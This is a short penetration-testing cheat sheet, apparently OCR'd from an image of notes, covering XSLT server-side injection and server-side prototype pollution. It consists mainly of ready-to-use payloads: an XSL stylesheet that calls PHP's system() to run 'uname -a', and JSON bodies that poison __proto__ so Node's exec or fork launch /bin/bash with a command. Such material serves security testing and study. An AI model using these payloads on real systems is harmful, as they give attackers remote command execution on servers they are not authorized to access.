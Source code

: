 ## XSLT Server Side Injection
### Identify  
-> Transformation Service  
-> XSLT engine  

### Exploit 
-> ok.xsl
```

<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
xmlns:php="http://php.net/xsl"
version="1.0">

 <xsl:template match="/">
 <html>
 
 <xsl:value-of select="php:function('system','uname -a')" />
 
 </html>
 </xsl:template>
</xsl:stylesheet>
```

## Prototype Pollution
### Client Side
https://github.com/BlackFan/client-side-prototype-pollution
  
### Server Side
-> exec.exec in req body with lodash - application/json
  
```
"__proto__":{
  "shell":"sleep 5"
}
```  
https://nodejs.org/api/child_process.html#child_processexeccommand-options-callback
  
-> exec.fork in req body with lodash - application/json  

```
  "__proto__":{
    "execPath":"/bin/bash",
    "execArgv":[
    "-c",
    "sleep 5"  
    ]
  }
```  
https://nodejs.org/api/process.html
